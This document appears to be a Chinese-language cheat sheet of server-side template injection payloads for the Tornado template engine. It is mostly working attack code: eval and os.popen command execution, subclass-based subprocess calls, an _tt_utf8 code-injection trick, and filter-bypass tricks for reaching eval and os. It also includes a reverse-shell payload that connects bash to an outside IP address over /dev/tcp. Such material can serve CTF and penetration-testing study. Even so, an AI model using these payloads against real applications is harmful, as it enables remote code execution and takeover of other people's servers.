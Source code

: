 # 常见payload
	- ```python
	  {{handler.settings}}
	  {%raw eval('__import__("os").popen("ls /").read()')%}
	  {{eval('[].__class__.__mro__[1].__subclasses__()[231]("ls",shell=1,stdout=-1).communicate()')}}
	  ```
- # 代码注入
	- ```
	  {% raw "__import__('os').popen('ls').read()"%0a    _tt_utf8 = eval%}{{'1'%0a    _tt_utf8 = str}}
	  ```
- # WAF绕过
	- 读取文件
		- `{%extends xxx%}`
		- `include`
	- 括号
		- `{%raw 114%}`计算并输出表达式，配合apply可以实现函数调用绕过括号
			- 可以直接将字符串传给eval
			- `{%apply x.append%}{%raw {114:1}[k]%}{%end%}`
		- `_tt_utf8`
			- ```
			  ssti={%25 set _tt_utf8 =eval %25}{%25 raw request.body_arguments[request.method][0] %25}&POST=import(‘os’).popen(“bash -c ‘bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F23.224.22.11%2F7777%20%3C%261’”)
			  ```
	- 获取危险函数
		- ``handler.request.server_connection._serving_future._coro.cr_frame.f_builtins['eval']``
		- `{%import os%}`
		- 命名空间里有datetime模块,也就是说可以拿到sys模块`datetime.sys`
			- 然后就可以使用`sys.modules`拿到已经加载的模块
			- ``datetime.sys.modules["os"].system``
			- ```python
			  namespace = {
			    "escape": escape.xhtml_escape,
			    "xhtml_escape": escape.xhtml_escape,
			    "url_escape": escape.url_escape,
			    "json_encode": escape.json_encode,
			    "squeeze": escape.squeeze,
			    "linkify": escape.linkify,
			    "datetime": datetime,
			    "_tt_utf8": escape.utf8,  # for internal use
			    "_tt_string_types": (unicode_type, bytes),
			    # __name__ and __loader__ allow the traceback mechanism to find
			    # the generated source code.
			    "__name__": self.name.replace(".", "_"),
			    "__loader__": ObjectDict(get_source=lambda name: self.code),
			  }
			  ```
	- 构造字符串
		- `handler.get_argument`拿到某个GET参数
			- ``handler.get_argument('yu')``
		- `request.method`请求方法
		- `request.arguments`POST（也许也有GET？）参数的字典，但是值是一堆bytes
		- `request.files`上传文件的字典
		- `request.headers`里面可以拿到^^字符串形式的Headers^^
		- `datetime.sys.base_exec_prefix`是一个字符串
		- `datetime.sys.builtin_module_names`有一堆字符串
		- 利用列表从一个字典中取出所有的值，可以用来从headers字典中取出字符串
			- ```
			  {%set x=[]%}
			  {%for k in {114:514}%}
			  {%apply x.append%}{%raw {114:1}[k]%}{%end%}
			  {%end%}
			  ```
			- ```
			  {%set x=[]%}
			  {%set d={114:514}%}
			  {%set g=iter(d)%}
			  {%try%}
			  {%while 1%}
			  {%apply x.append%}{%raw next(g)%}{%end%}
			  {%end%}
			  {%except%}
			  {%end%}
			  ```
	- 其他
		- `extends`渲染另一个模板
- # 参考
	- https://xz.aliyun.com/t/12260#toc-10
	- https://blog.csdn.net/miuzzx/article/details/123329244